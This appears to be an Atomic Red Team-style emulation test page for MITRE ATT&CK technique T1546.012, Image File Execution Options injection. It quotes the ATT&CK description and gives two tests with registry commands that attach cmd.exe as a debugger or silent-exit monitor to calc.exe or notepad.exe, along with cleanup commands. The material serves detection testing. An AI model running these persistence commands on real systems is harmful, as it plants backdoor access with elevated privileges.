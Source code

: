 # T1546.012 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1546.012)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by Image File Execution Options (IEFO) debuggers. IEFOs enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., <code>C:\dbg\ntsd.exe -g  notepad.exe</code>). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code>&lt;executable&gt;</code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

Similar to [Accessibility Features](https://attack.mitre.org/techniques/T1546/008), on Windows Vista and later as well as Windows Server 2008 and later, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for an accessibility program (ex: utilman.exe). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may also be abused to obtain privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous triggered invocation.

Malware may also use IFEO to [Impair Defenses](https://attack.mitre.org/techniques/T1562) by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;calc.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
